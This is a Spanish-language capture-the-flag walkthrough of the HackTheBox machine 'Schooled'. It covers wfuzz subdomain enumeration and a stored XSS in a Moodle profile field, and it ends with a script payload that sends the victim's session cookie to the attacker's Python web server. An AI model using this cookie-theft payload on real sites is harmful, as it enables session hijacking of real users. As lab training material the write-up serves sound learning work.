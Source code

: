 Como no encontramos nada interessante, vamos a enumerar subdominios con **WFUZZ**

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "Host: FUZZ.shooled.htb http:10.10.10.234
wfuzz -c -t 200 --hc=404 --hl=461 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "Host: FUZZ.shooled.htb http:10.10.10.234
```

Encontramos un subdominio `moodle.schooled.htb`, lo añadmimos al `/etc/hosts`.




## Vulnerability Assessment {-}


### Moodle {-}

Por la url `http://moodle.schooled.htb` vemos usuarios que ya tenemos en nuestro diccionario. Vemos que para ver los recursos, nos tenemos que
loggear. Hay la posibilidad de loggearnos como guest o de crear un nuevo usuario. 

Empezamos por crear un usuario. Vemos durante esta fase que necessitamos un email de typo `@student.schooled.htb`, lo añadmimos en el `/etc/hosts`.
pero la web por `http://student.schooled.htb` no cambia.

Vemos que estamos registrados como estudiante y tenemos acceso al curso **Mathematics**. Le damos al boton **enroll** para suscribirnos al curso.
Encontramos mensajes de profesores que nos dice que tenemos que tener el profile de MoodelNet para podernos suscribir al curso. 
Si vamos en nuestro perfil de usuario vemos que hay un campo MoodleNet profile. Nos llama la atencion el echo que el profe dice en el mensaje que
va a controlar todos los perfiles moodleNet antes que la classe empieze.

Miramos si hay una posibilidad de injectar un XSS en el campo MoodleNet Profile

### XSS {-}

```bash
<script>alert("XSS")</script>
```

Le damos a Update profile y vemos que una popup se pone visible. Como vemos que es vulnerable, vamos a intentar robar la cookie de session de Manuel Phillips.

1. Montamos un servidor web con python

    ```bash
    python3 -m http.server 80
    ```

1. Injectamos el XSS en la web

    ```html+
    <script>document.location="http://10.10.16.3/value_cookie=" + document.cookie</script>
    ```
